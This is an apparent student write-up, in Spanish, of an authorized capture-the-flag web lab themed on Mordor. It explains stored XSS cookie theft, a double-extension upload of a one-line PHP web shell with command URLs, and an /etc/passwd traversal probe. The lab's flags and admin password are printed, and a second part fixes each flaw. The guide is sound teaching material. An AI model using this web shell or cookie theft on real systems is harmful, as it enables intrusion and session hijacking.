# Guía de la práctica — Barad-dûr / Mordor

**Asignatura:** Seguridad en aplicaciones web
**Qué es esto:** una guía paso a paso para explotar la máquina, capturar las 4 flags y, al final, arreglar el código.
**Web objetivo:** `http://10.30.212.46:54350/` (en local: `http://localhost:54350/`)

> Laboratorio autorizado del profesor (temática El Señor de los Anillos). Todo se hace **desde el navegador**: escribiendo URLs en la barra de direcciones, usando los formularios de la propia web y las herramientas de desarrollador (tecla **F12**).
>
> La guía está dividida en dos partes:
> - **Parte A — Explotación:** cómo sacar las 4 flags, paso a paso.
> - **Parte B — Correcciones:** qué estaba mal en el código y cómo se arregla.

---

## Las 4 flags de un vistazo

| # | Flag | Dónde está | Método (del profesor) |
|---|------|------------|-----------------------|
| 1 | `FLAG{P4TH_TR4V3RS4L_S4UR0N_h7j3m1}` | `/secret/ring.txt` | URL directa |
| 2 | `FLAG{M0RD0R_D3V_N0T3S_F0UND_t5v8k2}` | `/dev/notes.txt` | URL directa |
| 3 | `FLAG{C00K13_TH13F_0F_M0RD0R_w9x4n6}` | `/private/` | Robo de la cookie de Sauron con XSS |
| 4 | `FLAG{0N3_R1NG_T0_RUL3_TH3M_4LL_k8m2x9}` | `/private/black_gate.php` | Subir una shell (RCE) y leer la frase |

---

# PARTE A — Explotación

## Paso 0. Reconocimiento

Abrimos la web y miramos qué hay. La portada tiene tres accesos: la **Biblioteca**, el **Muro del Orco** y el **Portal de Sauron** (login).



Mirando el código fuente de las páginas (clic derecho → *Ver código fuente*, o **Ctrl+U**) y probando rutas típicas en la barra de direcciones, encontramos ficheros que no deberían estar accesibles. Ese es el fallo de fondo: **hay cosas colgadas en la web que no deberían verse.**

---

## Paso 1. Flag 1 — `/secret/ring.txt`

En la barra de direcciones del navegador escribimos:

```
http://10.30.212.46:54350/secret/ring.txt
```

Se abre el fichero y ahí está la primera flag:



> **Flag 1:** `FLAG{P4TH_TR4V3RS4L_S4UR0N_h7j3m1}`

**Por qué funciona:** el fichero está dentro de la web, sin ninguna protección. Cualquiera que escriba la ruta lo lee.

---

## Paso 2. Flag 2 — `/dev/notes.txt`

Lo mismo, otra ruta:

```
http://10.30.212.46:54350/dev/notes.txt
```



> **Flag 2:** `FLAG{M0RD0R_D3V_N0T3S_F0UND_t5v8k2}`

---

## Paso 3. Un regalo por el camino — `/init.sql`

Por el mismo fallo encontramos el script de la base de datos. Al escribir la ruta, el navegador **descarga** el fichero; lo abrimos con cualquier editor de texto:

```
http://10.30.212.46:54350/init.sql
```



Dentro se ve el usuario administrador con la contraseña **en texto plano**:

```sql
INSERT INTO users (username, password, role) VALUES
('sauron', 'oneringtorulethemall', 'admin');
```

No es una flag, pero es una fuga grave de credenciales. (Nota: aunque esto permitiría entrar directamente con el login, la flag 3 la sacamos por el método que pide el profesor: robando la cookie por XSS.)

---

## Paso 4. Comprobar la Biblioteca (el traversal está parcheado)

La biblioteca tiene un parámetro `file` (`library.php?file=historia.txt`) que tenía pinta de Path Traversal. Lo probamos escribiendo en la barra:

```
http://10.30.212.46:54350/library.php?file=../../../../etc/passwd
```

La web responde con un error: solo deja leer `.txt` dentro de su carpeta.



O sea, ese ataque ya **no funciona** en la versión actual. Por eso las flags 1 y 2 se cogen por URL directa (Paso 1 y 2), no por traversal.

---

## Paso 5. Flag 3 — Robar la sesión de Sauron con XSS

La flag 3 está dentro de `/private/`, el panel de administración. Para entrar hay que ser Sauron. El método del profesor: **robarle la cookie de sesión** con un ataque **XSS** en el Muro del Orco.

### 5.1 — Preparar el "oído" del atacante

En nuestra máquina atacante dejamos algo escuchando para recibir la cookie (el profesor usa esto):

```
python3 -m http.server 8000
```

### 5.2 — Dejar el payload en el muro

Entramos en el **Muro del Orco** (`mordor/wall.php`). Si pide una clave para verlo, escribimos `mmora` y pulsamos *Acceder*.

En el formulario de publicar, en el campo **Nombre** (que no filtra nada), escribimos este payload y pulsamos **Grabar Mensaje**:

```html

```



El payload queda **guardado** en el muro (es un *Stored XSS*): se ejecutará en el navegador de todo el que abra esa página.

### 5.3 — La trampa salta cuando Sauron entra

Cuando Sauron (que está logueado) abre el muro para moderar, su navegador ejecuta el `onerror`. Como la cookie de sesión **no tiene la protección `HttpOnly`**, el JavaScript puede leerla. Esto se comprueba con **F12 → Console** escribiendo `document.cookie`:



Y esta es la prueba de que el XSS **captura la cookie de Sauron** (payload ejecutándose y mostrando su `lotrCookie`):



En un ataque real, esa cookie llega a nuestro "oído" (`python3 -m http.server`) en forma de `GET /?c=lotrCookie=XXXX`.

### 5.4 — Usar la cookie robada

Cogemos la `lotrCookie` robada, la ponemos en nuestro navegador (**F12 → Application → Cookies**, creando `lotrCookie` con ese valor) y navegamos a:

```
http://10.30.212.46:54350/private/
```

Entramos como Sauron sin saber su contraseña, y el panel muestra la flag:



> **Flag 3:** `FLAG{C00K13_TH13F_0F_M0RD0R_w9x4n6}`

**Por qué funciona:** el muro imprime lo que escribes **sin escaparlo** (XSS) y la cookie de sesión **no tiene `HttpOnly`** (así que el XSS puede leerla y robarla).

---

## Paso 6. Flag 4 — Subir una shell (RCE) y abrir la Puerta Negra

La flag 4 está detrás de `/private/black_gate.php`, que pide una **frase**. Esa frase está en un fichero protegido (`BlackGate-32/manual.txt`) que da **403** por la web. La única forma de leerlo es **ejecutar código en el servidor**. Lo hacemos subiendo una shell por el panel de mapas.

### 6.1 — Crear la shell

Con un editor de texto (Bloc de notas, VSCode…) creamos un fichero llamado **`shell.php.jpg`** con este contenido:

```php
<?php system($_GET["c"]); ?>
```

La doble extensión `.php.jpg` es la clave: pasa el filtro (que solo mira la última extensión, `.jpg`) pero el servidor lo ejecuta como PHP.

### 6.2 — Subirla por el formulario

Vamos a `/private/upload_map.php`, pulsamos **Seleccionar archivo**, elegimos `shell.php.jpg` y pulsamos **Subir Mapa**. (Si intentamos subir un `.php` a secas, la web lo rechaza con *"Solo se permiten .jpg"*; por eso la doble extensión.)



### 6.3 — Ejecutar comandos y leer la frase

Con la shell subida, ejecutamos comandos **escribiendo la URL en la barra de direcciones**:

```
http://10.30.212.46:54350/private/uploads/shell.php.jpg?c=id
http://10.30.212.46:54350/private/uploads/shell.php.jpg?c=cat ../../BlackGate-32/manual.txt
```

El primero devuelve `uid=33(www-data)...` (tenemos ejecución de comandos) y el segundo nos da la frase:

```
ACTIVATION PHRASE: M3LL0N_ENTER_1954
```

> **Nota honesta de esta instancia:** en el servidor tal cual está ahora, la subida devuelve *"Los fuegos del Monte del Destino rechazan tu ofrenda"* porque la carpeta `private/uploads/` no tiene permiso de escritura (un detalle del entorno; se arregla con `chmod 777` sobre esa carpeta, como indica el profesor). El código es vulnerable y la cadena es válida; en esta copia solo falta ese permiso. La frase y la flag final se confirman en el paso siguiente.

### 6.4 — Abrir la Puerta Negra

En `/private/black_gate.php`, escribimos la frase `M3LL0N_ENTER_1954` en el campo y pulsamos **Abrir Puerta**. Se abren las puertas y aparece la flag:



> **Flag 4:** `FLAG{0N3_R1NG_T0_RUL3_TH3M_4LL_k8m2x9}`

**Por qué funciona:** el formulario de subida valida **solo la última extensión** y un `.htaccess` con `AddHandler` hace que Apache ejecute como PHP cualquier fichero con `.php` en el nombre.

---

# PARTE B — Correcciones del código

Aquí explicamos, para cada fallo, **qué estaba mal**, **el código corregido** y **por qué ya no se puede explotar**.

## B.1 — Ficheros sensibles expuestos (Flags 1, 2 e `init.sql`)

**Qué estaba mal:** `secret/`, `dev/` e `init.sql` estaban dentro de la web, sin protección. Cualquiera con la URL los leía.

**Corrección — proteger esas rutas con un `.htaccess`:**

```apache
# /secret/.htaccess  y  /dev/.htaccess
Require all denied
```

Y el `init.sql` debe vivir **fuera** de la carpeta pública (p. ej. en `/opt/deploy/`), no en `html/`.

**Por qué ya no se puede explotar:** aunque alguien escriba `/secret/ring.txt`, Apache responde **403** antes de abrir el fichero, y el `init.sql` ya ni existe dentro de la web. No hay nada que leer.

---

## B.2 — Path Traversal en `library.php` (ya corregido)

**Qué estaba mal (versión antigua):** se concatenaba la entrada del usuario directamente:

```php
$path = "texts/" . $_GET['file'];          // ?file=../../etc/passwd
echo file_get_contents($path);
```

**Código corregido (el que tiene ahora):**

```php
$file = basename($raw_file);                         // quita los ../
if (pathinfo($file, PATHINFO_EXTENSION) !== 'txt') { // solo .txt
    echo "Error: Solo se permite leer pergaminos de texto (.txt).";
} else {
    $path = "texts/" . $file;
    if (file_exists($path)) echo htmlspecialchars(file_get_contents($path));
}
```

**Por qué ya no se puede explotar:** `basename()` elimina los `../`, así que `../../etc/passwd` se queda en `passwd`, que no existe en `texts/`. Y solo se abren ficheros `.txt`.

---

## B.3 — Stored XSS en el Muro (Flag 3, parte 1)

**Qué estaba mal:** el muro imprimía los mensajes **sin escaparlos**, y el único filtro bloqueaba la cadena `<script` (fácil de saltar con `onerror`). Además, el campo `author` no se filtraba:

```php
if (preg_match("/<script/i", $message)) { $error = "..."; }   // filtro inútil
// ...
<div class="author"><?php echo $msg['author']; ?></div>       // sin escapar
<div class="text"><?php echo $msg['message']; ?></div>        // sin escapar
```

**Código corregido — escapar la salida con `htmlspecialchars()`:**

```php
<div class="author"><?php echo htmlspecialchars($msg['author']); ?></div>
<div class="text"><?php echo htmlspecialchars($msg['message']); ?></div>
```

Y quitamos el filtro de lista negra, que no sirve de nada.

**Por qué ya no se puede explotar:** un `` se guarda igual, pero al mostrarlo se convierte en `&lt;img...&gt;`: el navegador lo pinta como **texto**, no lo ejecuta.

---

## B.4 — Cookie de sesión sin `HttpOnly` (Flag 3, parte 2)

**Qué estaba mal:** el login desactivaba `HttpOnly` a propósito, así que el JavaScript (y por tanto el XSS) podía leer la cookie:

```php
ini_set('session.cookie_httponly', 0);   // la cookie queda expuesta a JS
```

**Código corregido — activar `HttpOnly`:**

```php
session_set_cookie_params([
    'httponly' => true,     // JS ya no puede leer la cookie
]);
session_name("lotrCookie");
session_start();
```

**Por qué ya no se puede explotar:** con `HttpOnly`, `document.cookie` sale vacío. Aunque hubiera un XSS, no podría leer la cookie de sesión, así que el robo (que es lo que daba la flag) deja de funcionar.

---

## B.5 — Subida arbitraria de ficheros → RCE (Flag 4)

**Qué estaba mal:** solo se validaba la última extensión y se guardaba con el nombre original; además, un `.htaccess` hacía ejecutar los `.php`:

```php
$ext = pathinfo($filename, PATHINFO_EXTENSION);   // solo la ÚLTIMA extensión
if ($ext !== 'jpg') { error; }
move_uploaded_file($tmp, $upload_dir . $filename); // nombre original
```
```apache
# private/uploads/.htaccess
AddHandler application/x-httpd-php .php
```

**Código corregido — comprobar que es una imagen de verdad:**

```php
$info = getimagesize($_FILES['map']['tmp_name']);   // ¿es imagen de verdad?
if ($info === false || $info['mime'] !== 'image/jpeg') {
    die("El fichero no es una imagen JPEG válida.");
}
```

Y que en `uploads/` **no se ejecute PHP** (quitamos el `AddHandler` y lo apagamos):

```apache
# private/uploads/.htaccess
php_flag engine off
```

**Por qué ya no se puede explotar:** un `.php.jpg` con código PHP dentro ya no pasa (`getimagesize()` lo rechaza) y, aunque se colara, en esa carpeta no se ejecuta PHP. El truco de la doble extensión muere.

---

## Resumen final

| Vulnerabilidad | Fichero | Corrección en una línea |
|----------------|---------|-------------------------|
| Ficheros sensibles expuestos | `secret/`, `dev/`, `init.sql` | `.htaccess Require all denied` + sacar `init.sql` de la web |
| Path Traversal | `library.php` | `basename()` + solo `.txt` (ya aplicado) |
| Stored XSS | `mordor/wall.php` | `htmlspecialchars()` al mostrar los mensajes |
| Cookie robable | `login.php` | `httponly => true` en la cookie |
| Subida → RCE | `upload_map.php` + `uploads/.htaccess` | comprobar que es imagen + no ejecutar PHP en `uploads/` |

**La idea de fondo de toda la máquina:** no fiarse de lo que mete el usuario, **escapar siempre lo que se muestra**, **validar por contenido** (no por el nombre del fichero) y **no dejar en la web lo que no es web**.

---

*Entorno: Apache/2.4.68 (Debian), PHP, MySQL `mordor`. Proceso web: `www-data` (uid 33). Toda la explotación es reproducible desde el navegador.*
